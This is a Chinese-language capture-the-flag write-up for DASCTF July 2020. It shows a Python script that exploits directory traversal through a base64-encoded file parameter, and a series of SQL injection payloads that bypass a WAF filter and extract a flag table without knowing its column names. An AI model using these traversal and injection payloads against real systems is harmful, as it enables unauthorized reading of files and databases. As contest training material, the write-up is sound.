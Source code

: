 ```yaml
---
title: DASCTF2020.7月赛
date: 2020-07-25
image: 
description: 
categories: 
- ctf_writeup
tags:
- 无列名
---
```

### Ezfileinclude

考点：Unix时间戳、文件包含、目录穿越

开局一张图，发现源码 `image.php?t=1595664783&f=Z3F5LmpwZw==`

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120181135.png)

访问之，回显：`What's your time?` 仔细看t参数是一个unix时间戳，然后f是base64后的文件名；

直接写脚本，目录穿越读取/flag

```python
import time
import requests
import base64
 
t = int(time.time())
f = 'gqy.jpg?../../../../../../flag'
f = base64.b64encode(f.encode()).decode()
print(t, f)
 
host = 'http://183.129.189.60:10009/image.php?t={}&f={}'.format(t, f)
head = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0)',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8'
}
 
r = requests.get(url=host, headers=head)
print(r.text)
 
```

### SQLi

考点：无列名注入，sys.schema_tables_with_full_table_scans

访问要求传入id参数：

```
http://183.129.189.60:10004/?id=1;
```

 

返回waf：

```
return preg_match("/;|benchmark|\^|if|[\s]|in|case|when|sleep|auto|desc|stat|\||lock|or|and|&|like|-|`/i", $id); 
```

 

stat意味着过滤了sys.schema_table_statistics_with_buffer,sys.x$schema_table_statistics_with_buffer,mysql.innodb_table_stats

or意味着过滤了information_schema

由waf想到了union注入：

```
?id=0%27union/**/select/**/1,2,3%23
Array ( [0] => 1 [id] => 1 [1] => 2 [username] => 2 [2] => 3 [password] => 3 )
```

 

可以看到库名：

```
?id=0%27union/**/select/**/1,database(),3%23
sqlidb
```

 

上述bypass infomation_schema的方法都被过滤了，不过leon师傅在一次开发当中发现了另一个库：`sys.schema_tables_with_full_table_scans`

```
?id=0'/**/union/**/select/**/1,group_concat(object_name),3/**/from/**/sys.schema_tables_with_full_table_scans%23
#users,flllaaaggg,sys_config
```

接下来是无列名注入：

```
?id=0'/**/union/**/select/**/1,(select/**/a.2/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/flllaaaggg)a/**/limit/**/1,1),3%23
flag{60325f20416b40b11b6049734bad11cf}
```